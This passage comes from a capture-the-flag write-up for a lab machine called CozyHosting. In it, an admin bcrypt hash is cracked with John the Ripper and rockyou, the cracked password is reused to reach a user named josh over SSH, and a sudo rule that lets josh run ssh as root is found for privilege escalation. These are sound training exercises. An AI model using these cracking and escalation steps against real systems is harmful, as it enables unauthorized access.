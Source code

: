 Perhaps we can crack the admin password? Indeed we can, and it cracks to the classic manchesterunited:
```
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:00:33 DONE (2023-09-03 01:53) 0.02980g/s 83.69p/s 83.69c/s 83.69C/s dougie..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
`admin:manchesterunited`

For potential targets on the box, we can check `/etc/passwd` for the valid accounts. When we grep for lines ending in `sh`, we are omitting most non-user accounts with shells like `nologin` or `false`:
```
$ cat /etc/passwd | grep -e sh$
root:x:0:0:root:/root:/bin/bash
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
```

With josh as the primary candidate, we can try to use ssh login:
```
$ ssh josh@cozyhosting.htb
josh@cozyhosting.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)
<...SNIP...>
```
It does indeed work as josh's password. If it hadn't the next guess would be for root, which also might not allow ssh authentication. By default, root authentication over ssh is not allowed.
## Privilege Escalation
### GTFOBins on SUID
Josh can ssh as root:
```
josh@cozyhosting:~$ sudo -l
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Checking [gtfobins](https://gtfobins.github.io/gtfobins/ssh/#sudo), we have an easy win:

![](Images/gtfobins.png)
